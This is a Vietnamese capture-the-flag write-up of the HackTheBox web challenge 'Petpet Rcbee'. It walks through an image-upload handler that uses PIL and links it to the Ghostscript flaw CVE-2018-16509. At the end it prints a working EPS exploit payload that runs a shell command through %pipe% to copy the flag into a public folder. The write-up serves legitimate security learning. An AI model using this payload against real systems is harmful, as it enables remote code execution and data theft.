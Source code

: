 ```yaml
---
title: HTB Petpet Rcbee
author: HoangND
date: 2021-09-05 08:51:00 +0700
categories: [Writeups, HackTheBox]
tags: [pil]
---
```


Petpet rcbee là một web challenge. Sau khi xem xét thì thấy rằng trang web chỉ có một chức năng duy nhất là upload 1 ảnh sau đó "pet" ảnh này.

![image](https://user-images.githubusercontent.com/61985236/132112457-f6c6f3b3-45cf-4de4-a1c1-91f03404a76f.png)

Oke kiểm tra source code xem có gì có thể lợi dụng để RCE thông qua file được tải lên hay không

```python
def petpet(file):

    if not allowed_file(file.filename):
        return {'status': 'failed', 'message': 'Improper filename'}, 400

    try:
        
        tmp_path = save_tmp(file)

        bee = Image.open(tmp_path).convert('RGBA')
        frames = [Image.open(f) for f in sorted(glob.glob('application/static/img/*'))]
        finalpet = petmotion(bee, frames)

        filename = f'{generate(14)}.gif'
        finalpet[0].save(
            f'{main.app.config["UPLOAD_FOLDER"]}/{filename}', 
            save_all=True, 
            duration=30, 
            loop=0, 
            append_images=finalpet[1:], 
        )

        os.unlink(tmp_path)

        return {'status': 'success', 'image': f'static/petpets/{filename}'}, 200

    except:
        return {'status': 'failed', 'message': 'Something went wrong'}, 500
```

Ảnh sau khi được tải được xử lý bằng hàm petpet. 
Bên trong thực hiện các thao tác như lưu ảnh vào file tạm, generate một ảnh gif dựa trên ảnh này, sau đó đưa nó vào thư mục theo đường dẫn là biến UPLOAD_FOLDER ở trong config. 
Cuối cùng là xóa ảnh trong tmp.

Trang web này sử dụng một thư viện là PIL để xử lý ảnh, để xem PIL có CVE nào k. 
Sau khi xem xét một vòng thì có 1 CVE liên quan đến PIL và Ghostscript để RCE là [CVE-2018-16509](https://store.vsplate.com/en/post/141/), check lại thì bên trong file docker có tồn tại cái gọi là Ghostscript thật.

![image](https://user-images.githubusercontent.com/61985236/132112621-6aa6440d-069f-4f3d-98d6-ac8464924feb.png)

Sử dụng luôn craft image của CVE, chạy thử trên local

![image](https://user-images.githubusercontent.com/61985236/132112641-0d615a6f-1183-4c0c-8e83-5d2cc5f5d787.png)

Oke vậy là đã RCE được, bây giờ cần làm thế nào để đọc được flag được dấu bên trong. Để ý răng có một đường dẫn tệp được public là biến UPLOAD_FOLDER (/static/petpets/).
Vậy chỉ cần đọc file flag và ghi vào một file bất kỳ trong này là xong.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > application/static/petpets/test.txt) currentdevice putdeviceprops
```

![image](https://user-images.githubusercontent.com/61985236/132112752-4583ab37-3e83-4e77-9d83-bfde6b024c67.png)
